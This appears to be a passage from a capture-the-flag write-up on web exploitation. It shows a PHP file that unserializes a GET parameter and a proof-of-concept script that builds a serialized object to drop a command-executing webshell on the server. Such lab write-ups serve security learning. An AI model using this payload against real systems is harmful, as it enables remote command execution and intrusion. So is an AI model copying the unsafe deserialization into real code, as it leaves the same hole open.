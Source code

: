 ## Web exploitation

`sator.php.bak`

```php
<?php

class DatabaseExport
{
  public $user_file = 'users.txt';
  public $data = '';

  public function update_db()
  {
    echo '[+] Grabbing users from text file <br>';
    $this-> data = 'Success';
  }


  public function __destruct()
  {
    file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
    echo '[] Database updated <br>';
  //	echo 'Gotta get this working properly...';
  }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

There is a PHP deserialization here that allow us to upload any arbitrary content.

We can even find a [similar case](https://security.stackexchange.com/questions/176263/why-does-this-php-object-injection-exploit-work) on security stackexchange.

My PoC to generate the serialized webshell payload:

```php
<?php

class DatabaseExport
{
  public $user_file = 'cyfun.php';
  public $data = '<?php system($_GET["cmd"])?>';
}

$klass = new DatabaseExport();

$payload = serialize($klass);

echo $payload;
```
